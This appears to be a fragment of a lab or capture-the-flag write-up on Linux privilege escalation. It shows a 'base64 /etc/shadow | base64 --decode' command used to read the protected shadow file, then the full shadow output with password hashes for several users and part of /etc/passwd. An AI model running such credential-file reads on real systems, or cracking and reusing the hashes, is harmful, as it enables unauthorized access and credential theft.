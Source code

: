  shadow => shadow.txt
```
karen@ip-10-10-85-246:/$ base64 /etc/shadow | base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:18796::::::
ubuntu:!:18796:0:99999:7:::
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::

```

passwd => passwd.txt
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```